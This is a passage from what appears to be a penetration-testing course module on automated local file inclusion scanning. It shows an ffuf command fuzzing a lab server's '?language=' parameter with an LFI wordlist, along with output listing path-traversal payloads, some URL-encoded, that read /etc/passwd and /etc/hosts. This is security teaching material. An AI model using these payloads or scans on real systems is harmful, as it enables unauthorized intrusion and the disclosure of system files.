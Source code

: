 **Tip:** For a more precise scan, we can limit our scan to the most popular LFI parameters found on this [link](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html#top-25-parameters).

---

## LFI wordlists

So far in this module, we have been manually crafting our LFI payloads to test for LFI vulnerabilities. This is because manual testing is more reliable and can find LFI vulnerabilities that may not be identified otherwise, as discussed earlier. However, in many cases, we may want to run a quick test on a parameter to see if it is vulnerable to any common LFI payload, which may save us time in web applications where we need to test for various vulnerabilities.

There are a number of [LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI) we can use for this scan. A good wordlist is [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt), as it contains various bypasses and common files, so it makes it easy to run several tests at once. We can use this wordlist to fuzz the `?language=` parameter we have been testing throughout the module, as follows:

  Automated Scanning

```shell-session
alakin2504@htb[/htb]$ ffuf -w /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287

...SNIP...

 :: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?FUZZ=key
 :: Wordlist         : FUZZ: /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response size: xxx
________________________________________________

..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../../../../../../../etc/hosts [Status: 200, Size: 2461, Words: 636, Lines: 72]
...SNIP...
../../../../etc/passwd  [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../etc/passwd&=%3C%3C%3C%3C [Status: 200, Size: 3661, Words: 645, Lines: 91]
..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd [Status: 200, Size: 3661, Words: 645, Lines: 91]
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
```

As we can see, the scan yielded a number of LFI payloads that can be used to exploit the vulnerability. Once we have the identified payloads, we should manually test them to verify that they work as expected and show the included file content.

---